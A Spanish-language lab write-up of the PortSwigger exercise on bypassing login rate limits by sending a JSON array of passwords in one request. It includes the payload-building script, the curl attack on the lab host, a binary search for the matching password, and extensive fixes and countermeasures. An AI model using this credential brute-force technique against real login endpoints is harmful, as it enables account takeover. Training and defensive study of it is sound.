

# Writeup: Broken brute-force protection, multiple credentials per request (PortSwigger)

- **Lab**: Broken brute-force protection, multiple credentials per request
- **URL**: https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request
- **Categoría**: Authentication / Brute-force / Bypass de rate-limit por agregación de candidatos en una sola request
- **Dificultad**: Practitioner
- **Credenciales propias**: `wiener:peter` (no necesarias para el ataque, sólo para mapear el flujo)
- **Credenciales objetivo**: `carlos` (encontrado: `carlos:555555`)

---

## 1. Objetivo

Loguear como `carlos`. El defender implementó rate-limit en el endpoint de login. El backend acepta JSON y, crucialmente, **el campo `password` puede ser un array** que el server itera completo: si **cualquier** elemento del array matchea, devuelve éxito. Como el rate-limit cuenta requests (no candidatos), empacar todo el wordlist en una sola request equivale a 100 intentos por el costo de 1 contra el rate-limit. **Una sola request basta** para enumerar todo el wordlist.

### El insight central

El error de diseño es separar dos preguntas que el defender asumió equivalentes:

- **¿Cuántas credenciales se están probando?** (lo que importa para detectar brute-force)
- **¿Cuántas requests se hicieron?** (lo que el rate-limit típico mide)

Con form-encoded clásico (`username=x&password=y`) ambas preguntas coinciden trivialmente: 1 request = 1 credencial. Con JSON, el cliente puede enviar estructuras anidadas (arrays, listas) y disociar las dos cantidades. Si el backend procesa la estructura completa (itera array, prueba todos), 1 request puede contener 100 credenciales. El rate-limit, midiendo la métrica equivocada, no detecta el ataque.

### Por qué este antipatrón es plausible

Probablemente el dev original quiso ofrecer una API "flexible" — que el cliente pudiera mandar candidatos múltiples para flujos de "autocompletado de password manager" o algo similar. La feature en sí no es absurda; lo absurdo es no contar los elementos del array para el rate-limit. Es la clase de bug que aparece cuando un endpoint nuevo se agrega sin auditar las defensas perimetrales (rate-limit, WAF, logging) que asumían el contrato anterior.

---

## 2. Reconocimiento

### 2.1 Mapear el flujo legítimo

Submit del login form con `wiener:peter` y captura en Burp:

```http
POST /login HTTP/2
Host: 0abf0082042ccc71801c30b200e40078.web-security-academy.net
Content-Type: application/json

{"username":"wiener","password":"peter"}
```

Dos observaciones clave:

1. **`Content-Type: application/json`** en un login form. Inusual (lo normal es `application/x-www-form-urlencoded`) y altamente sugestivo del vector. El form en HTML usa `<form method=POST action="/login">` con un `onclick="event.preventDefault(); jsonSubmit('/login')"` que serializa los inputs como JSON antes de enviar — lo que confirma que el endpoint es JSON-nativo.
2. **Body JSON simple** con `username` y `password` como strings. Eso permite probar variantes: array, objeto, número, null.

### 2.2 Probar la hipótesis del array

En Repeater, modificar el body para que `password` sea un array que **incluya** el password correcto:

```json
{"username":"wiener","password":["peter","wrong1","wrong2"]}
```

Response:

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=0uOxqL8BoKelCOFX1TJcwYWEz2aCecli; Secure; HttpOnly; SameSite=None
```

**Vector confirmado**: el server aceptó el array y logueó como wiener cuando `peter` apareció al inicio. Pero hay que verificar que itera **todo** el array (no sólo el primer elemento).

Test crítico, peter al final:

```json
{"username":"wiener","password":["wrong1","wrong2","peter"]}
```

Response: también `302 → /my-account?id=wiener`. **El server itera el array completo** y devuelve éxito si cualquier elemento matchea. Posición del candidato real no importa.

#### Anti-tip operacional: cuidado con "Follow redirects" + cookies

En la primera ronda de tests, el ataque parecía fallar porque Burp Repeater estaba siguiendo redirects con la sesión vieja, terminando en un 200 OK del `/login` form. La login en sí (302 a `/my-account`) sucedía en la **primera response** de la cadena, pero la última visible era la del re-render del login. Lección: cuando se inspecciona una redirect chain en Repeater, mirar **la primera response cruda** (deshabilitar "Follow redirects" o "Process cookies" según el caso); confiar en la última response inducía falsos negativos. La diferencia entre "el login falló" y "el login funcionó pero perdí la cookie en el redirect chain" es invisible si solo miras el último frame.

### 2.3 Estimar costo del ataque

- **Wordlist**: 100 candidatos canónicos de PortSwigger.
- **Espacio**: 100 passwords.
- **Defensas**: rate-limit aparente sobre requests, sin contar elementos del array.
- **Costo del ataque**: **1 request** (todos los candidatos en un array).
- **Tiempo total**: <1 segundo.

Comparación con otros labs del cluster auth de PortSwigger:

| Lab | Espacio | Requests necesarias | Tiempo típico |
|---|---|---|---|
| Username enumeration via different responses | 100 users | ~100 | minutos |
| Broken brute-force protection (IP block) | 100 pwds | ~200 (intercaladas) | minutos |
| Password brute-force via password change | 100 pwds | ~50-200 (re-login each) | segundos a minutos |
| **Multiple credentials per request (este)** | 100 pwds | **1** | **<1s** |

Este lab tiene la mejor relación brute-force/request del cluster por orden de magnitud.

---

## 3. Resolución

### 3.1 Construir el payload

```python
import json
with open('passwords.txt') as f:
    pwds = [line.strip() for line in f if line.strip()]
payload = json.dumps({'username': 'carlos', 'password': pwds}, separators=(',', ':'))
# Resultado: 987 bytes con 100 passwords
```

### 3.2 Enviar el ataque

```bash
HOST=0abf0082042ccc71801c30b200e40078.web-security-academy.net
curl -i -X POST "https://$HOST/login" \
    -H "Content-Type: application/json" \
    -d "$(cat payload.json)"
```

Response:

```http
HTTP/2 302 Found
Location: /my-account?id=carlos
Set-Cookie: session=2mWEbb2cP0n78ciHSegKHqijykAghgaP; Secure; HttpOnly; SameSite=None
Content-Length: 0
```

Una sola request, login como carlos completado. La cookie `session=2mWEbb2cP0n78...` es la sesión autenticada de carlos.

### 3.3 Registrar el solve

Visitar `/my-account` con la sesión de carlos para que el server-side state del lab marque `is-solved`:

```bash
curl -s "https://$HOST/my-account" -H "Cookie: session=2mWEbb2cP0n78ciHSegKHqijykAghgaP" -o /dev/null
curl -s "https://$HOST/" | grep -oE "is-(solved|notsolved)"
# is-solved
```

### 3.4 Identificar qué password matcheó

El payload masivo confirma la cuenta pero no revela cuál de los 100 candidatos era el real. Para identificarlo, **binary search** usando el mismo truco del array (no toca el rate-limit porque cada chunk va en su propia request, pero es más eficiente que probar uno por uno):

```python
def try_chunk(chunk):
    payload = json.dumps({'username':'carlos','password':chunk})
    # status 302 = al menos un match en el chunk
    return curl_post(payload).status == 302

candidates = pwds
while len(candidates) > 1:
    mid = len(candidates)//2
    left, right = candidates[:mid], candidates[mid:]
    candidates = left if try_chunk(left) else right
```

7 requests bastan para acotar 100 → 1. Resultado: **`carlos:555555`**.

Trayectoria observada del binary search: `100 → 50 → 25 → 13 → 6 → 3 → 2 → 1`. Logarítmico. Y notable: el binary search no requiere ningún cambio en la mecánica del exploit — usa exactamente la misma feature de "array de passwords" para hacer una pregunta distinta (¿en qué mitad está el match?). Es el mismo oráculo binario que en otros labs auth, pero con espacio de búsqueda agregado.

---

## 4. Por qué funciona

### 4.1 La métrica equivocada del rate-limit

El defender clásico mide rate-limit en **requests por unidad de tiempo por IP/usuario**: `5 logins/min` → throttle, `20 logins/min` → block. Esa métrica funciona cuando 1 request = 1 intento de credencial, lo que es el caso del 99% de los login forms históricos (form-encoded, single password).

El JSON cambia el contrato: una request puede contener N intentos. Si el rate-limit no se actualiza para contar **credenciales probadas**, el atacante simplemente comprime su ataque: en vez de 100 requests con 1 password cada una (rate-limit catch), 1 request con 100 passwords (rate-limit miss).

La fix correcta no es "no permitir arrays" sino **medir la métrica correcta**:

```python
# Antipatrón
@app.route('/login', methods=['POST'])
@rate_limit(max_requests=5, per_seconds=60)  # cuenta requests
def login_broken():
    data = request.json
    password_attempts = data['password'] if isinstance(data['password'], list) else [data['password']]
    for pwd in password_attempts:
        if verify(data['username'], pwd):
            return login_success(data['username'])
    return login_failure()

# Implementación correcta
@app.route('/login', methods=['POST'])
def login_safe():
    data = request.json
    if not isinstance(data['password'], str):
        # Strict typing: rechazar arrays/objetos
        return error("Password must be a string")
    if rate_limit_exceeded(data['username'], request.remote_addr):
        return error("Too many attempts")
    record_attempt(data['username'], request.remote_addr)
    if verify(data['username'], data['password']):
        return login_success(data['username'])
    return login_failure()
```

Cuatro diferencias clave:

1. **Validación de tipo estricta**: `password` debe ser string. Array, objeto, número → 400 Bad Request. Cierra el vector en la capa de input validation.
2. **Rate-limit cuenta intentos, no requests**: registrar cada attempt explícitamente. Si una request lleva un array, contar `len(array)` attempts.
3. **Lockout temprano**: chequear el rate-limit *antes* del check del password, así un atacante que ya está lockeado no sigue probando.
4. **Mensaje uniforme** en cualquier rama de fallo (validación, rate-limit, password incorrecto).

### 4.2 Patrón general - Type confusion como bypass de defensas

Esta clase aparece más allá de login forms cuando hay APIs JSON con defensas que asumen "scalar input":

- **Search endpoints**: `q=hello` → 1 query; `q=["hello","world","stuff"]` → N queries por el costo de 1 (escala el costo del backend).
- **Email blast prevention**: `to=alice@x.com` con limit 1 email/minuto → `to=["alice","bob","charlie"]` envía 3 emails contando como 1 request.
- **Coupon redemption**: `code=ABC123` con limit 1 use/hour → `code=["A","B","C","D"]` itera todos.
- **API rate-limit por token**: cualquier endpoint donde el procesamiento del array no se contabilice individualmente.
- **GraphQL batch queries**: `[{query:Q1}, {query:Q2}, ...]` permite N queries en 1 HTTP request (hay defensas específicas para esto; muchas APIs no las implementan).

La regla universal: **medir la métrica que importa**. Si la defensa cuenta lo que cuesta poco (HTTP requests) en lugar de lo que cuesta mucho (operaciones lógicas: queries, intentos de auth, emails, tokens consumidos), el atacante migra el costo al lado del atacante (1 request grande) y deja a la defensa midiendo cero.

### 4.3 Por qué validación de tipo en la capa de input es la mejor defensa

Validación de tipo (`password debe ser string`) es la fix más limpia porque:

- **Es local al endpoint**: una línea de código, sin coordinación con sistemas distribuidos (rate-limit clusters, lockout DBs).
- **Es fail-safe**: rechaza en la primera línea, antes de tocar la lógica de auth. No hay riesgo de que un bug en el iterador del array filtre un éxito.
- **Es self-documenting**: el contrato "password es string" es explícito en el código y en errors al cliente. Cualquier intento de array se ve inmediatamente.
- **No depende de la métrica**: incluso si el rate-limit estuviera roto en otro sentido (e.g., bypass por IP rotation), el array como vector específico estaría cerrado.

Combinada con rate-limit que cuenta intentos correctamente, son defensa en profundidad. Pero la validación de tipo sola ya rompe este lab.

### 4.4 Diferencias con labs hermanos del cluster auth

| Lab | Tipo de defensa débil | Cómo se bypassea |
|---|---|---|
| Username enumeration via different responses | Mensaje de error revela validez del username | Discriminador en mensaje |
| Username enumeration via response timing | Tiempo de respuesta varía | Side-channel temporal |
| Broken brute-force protection (IP block) | Lockout solo cuenta IPs sin login exitoso | Intercalar logins legítimos |
| Username enumeration via account lock | Lockout asimétrico (solo users existentes) | Lock como oráculo |
| Password brute-force via change-password | Endpoint post-login sin defensas | Cambiar al endpoint sin protección |
| **Multiple credentials per request (este)** | Rate-limit cuenta requests, no credenciales | Empaquetar 100 credenciales en 1 request |

Cinco labs anteriores atacan la **detección** del defender (signals que escapan, asimetrías en el oráculo). Este ataca **la métrica del defender**: la defensa funcionaría si midiera lo correcto, pero mide lo equivocado y el atacante explota la discrepancia. Distintas familias de ataque, distintas familias de fix.

---

## 5. Resumen de la cadena



Tres ideas para llevarse:

1. **Type confusion entre JSON y form-encoded crea bypasses sutiles**. Cualquier API que acepta JSON y mantiene defensas diseñadas para form-encoded debería auditar cómo cambia el contrato cuando los tipos son flexibles. Un campo "password" string-only en form-encoded puede ser array en JSON sin que nadie se entere.
2. **El rate-limit debe medir la métrica que importa**. Contar requests es proxy del esfuerzo del atacante; lo que importa es el esfuerzo de validación del backend. Si una request cuesta N validaciones internas, contala como N hits del rate-limit.
3. **Validación de tipo estricta en el input es la primera línea de defensa**. Antes de cualquier lógica de negocio, asegurate de que el shape de los datos coincida con tu contrato. Si esperabas string, rechazá array. Es 1 línea de código y cierra una clase entera de bugs.

---

## 6. Contramedidas

En orden de robustez:

1. **Validación de tipo estricta**: `password` debe ser string. Array, número, null, objeto → 400 Bad Request inmediato. Es la fix más limpia; cierra el vector específico independientemente del estado del rate-limit.
2. **Rate-limit que cuenta intentos, no requests**: si por algún motivo la API debe aceptar arrays (autocompletado de password manager, etc.), el rate-limit cuenta `len(array)` attempts, no `1`. Y registrar cada attempt en el log (no sólo la request).
3. **Lockout temprano por usuario**: chequear si `username` está lockeado antes de iterar el array. Sino, atacante puede gastar todo su quota en un sólo request masivo y que la defensa logue "1 attempt".
4. **Limitar tamaño máximo del body**: rechazar requests con body > 10KB (o lo que sea razonable para login). Mitiga ataques de gran escala aunque no los cierra (10KB siguen siendo cientos de candidatos).
5. **Mensaje uniforme** en todas las ramas de fallo (validación de tipo, rate-limit, password incorrecto, user inexistente). Sin oráculos por discriminación de respuesta.
6. **Logging granular**: registrar cada `(username, password_attempt)` aunque vengan en una request masiva. Defender humano viendo logs verá "300 password attempts in 1 request from IP X" y puede actuar.
7. **WAF/API gateway** que inspeccione el body JSON y limite la cardinalidad de arrays en campos críticos (`password.length <= 1`).
8. **MFA** mitiga el impacto incluso si el password es comprometido. Defensa post-quantum del cluster auth.

---

## 7. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Broken brute-force protection, multiple credentials per request*. https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request
- PortSwigger Web Security Academy. (s.f.). *Authentication: Password-based login*. https://portswigger.net/web-security/authentication/password-based
- OWASP Foundation. (s.f.). *Authentication Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *REST Security Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/REST_Security_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Mass Assignment Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html
- MITRE Corporation. (2024). *ATT&CK Technique T1110.001: Brute Force - Password Guessing*. https://attack.mitre.org/techniques/T1110/001/
- MITRE Corporation. (2024). *CWE-307: Improper Restriction of Excessive Authentication Attempts*. https://cwe.mitre.org/data/definitions/307.html
- MITRE Corporation. (2024). *CWE-799: Improper Control of Interaction Frequency*. https://cwe.mitre.org/data/definitions/799.html
- MITRE Corporation. (2024). *CWE-20: Improper Input Validation*. https://cwe.mitre.org/data/definitions/20.html
- MITRE Corporation. (2024). *CWE-1287: Improper Validation of Specified Type of Input*. https://cwe.mitre.org/data/definitions/1287.html
- NIST. (2017). *SP 800-63B: Digital Identity Guidelines - Authentication and Lifecycle Management*. https://pages.nist.gov/800-63-3/sp800-63b.html
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 6 (Attacking Authentication).
- Writeups hermanos del cluster auth:
  - [`learning/portswigger/broken-bruteforce-protection-ip-block/writeup.md`](../broken-bruteforce-protection-ip-block/writeup.md) — bypass por intercalar logins exitosos.
  - [`learning/portswigger/password-brute-force-via-password-change/writeup.md`](../password-brute-force-via-password-change/writeup.md) — bypass por endpoint post-login sin defensas.
- Inventario interno: [`inventario/04-explotacion/credenciales/explotacion-brute-force-advanced.md`](../../../inventario/04-explotacion/credenciales/explotacion-brute-force-advanced.md)
